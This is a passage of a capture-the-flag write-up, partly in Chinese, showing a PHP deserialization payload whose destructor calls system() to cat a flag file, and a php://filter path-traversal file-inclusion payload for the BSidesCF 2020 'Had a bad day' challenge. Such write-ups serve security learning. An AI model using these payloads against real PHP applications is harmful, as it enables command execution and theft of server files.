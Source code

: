 ![image-20231112230852512](.\img\10-2.png)

```php
`<?php

class Test {
    var $p = "cat /tmp/flagoefiu4r93";
    var $func = "system";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$a = new Test();
echo serialize($a);
```

``O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}`

## [BSidesCF 2020]Had a bad day

`文件包含`

`代码审计`

一道有点神奇的文件包含题

```
?category=php://filter/read=convert.base64-encode/resource=meowers/../flag
```
